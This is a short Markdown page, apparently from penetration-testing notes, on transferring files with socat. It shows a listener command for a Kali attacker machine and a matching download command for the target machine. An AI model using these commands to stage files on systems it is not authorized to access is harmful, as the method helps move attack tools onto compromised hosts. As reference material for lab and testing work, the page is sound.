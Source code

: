 ```yaml
---
title: Socat File Transfer
layout: default
nav_order: 8
parent: File Transfers

---
```


# Socat
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }
1. TOC
{:toc}

---

### Socat File Transfers
1. Set Listener with file on Kali Machine:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$FILENAME
```

2. Connect to Kali machine from target machine to download file:
```bash
socat TCP:$IP:$PORT file:$FILENAME,create
```
